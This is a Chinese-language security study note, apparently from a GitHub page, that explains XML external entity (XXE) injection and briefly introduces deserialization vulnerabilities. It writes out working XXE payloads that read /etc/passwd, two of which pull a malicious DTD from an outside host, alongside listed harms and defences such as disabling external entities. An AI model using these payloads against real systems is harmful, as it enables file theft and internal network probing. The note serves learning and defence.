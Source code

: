 ### XXE是什么？攻击方法？危害？防御方法？
	1) XXE是什么？
		先了解，外部实体声明:<!ENTITY 实体名称 SYSTEM "URI">，示例如下：
```
		<?xml version="1.0"?>
		<!DOCTYPE test [
			<!ENTITY writer SYSTEM "http://www.w3school.com.cn/dtd/entities.dtd">
			<!ENTITY copyright SYSTEM "http://www.w3school.com.cn/dtd/entities.dtd">
		]>
		<author>&writer;&copyright;</author>
```
		xxe也就是xml外部实体注入。
	2) XXE攻击方法
		a. 直接通过DTD外部实体声明
```
			<?xml version="1.0"?>
			<!DOCTYPE a [
				<!ENTITY b SYSTEM "file:///etc/passwd">
			]>
			<c>&b;</c>
```
		b. 通过DTD文档引入外部DTD文档，再引入外部实体声明
			XML内容：
```
			<?xml version="1.0"?>
			<!DOCTYPE a SYSTEM "http://mark4z5.com/evil.dtd">
			<c>&b;</c>
```
			DTD文件内容：
```
			<!ENTITY b SYSTEM "file:///etc/passwd">
```
		c. 通过DTD外部实体声明引入外部实体声明
			XML内容：
```
			<?xml version="1.0"?>
			<!DOCTYPE a [
				<!ENTITY % d SYSTEM "http://mark4z5.com/evil.dtd">
				%d;
			]>
			<c>&b;</c>
```
			DTD文件内容：
```
			<!ENTITY b SYSTEM "file:///etc/passwd">
```
	3) XXE危害
		a. 任意文件读取
		b. 执行系统命令
		c. 探测内网端口
		d. 攻击内网
	4) XXE防御方法
		a. 禁用外部实体声明
		b. 过滤关键词（<!DOCTYPE，<!ENTITY，SYSTEM等）
### 反序列化漏洞
#### 序列化和反序列化
1) 序列化：    	把Object转化成字节流，便于保存( eg. Java writeObject() )

2) 反序列化：	把字节流还原成Object ( eg. Java readObject() )
#### 反序列化漏洞
程序对于用户输入的进行反序列化处理，可能导致恶意payload导致的任意代码执行。
#### 影响
Java, PHP, Python等主流计算机语言都存在这种代码隐患。

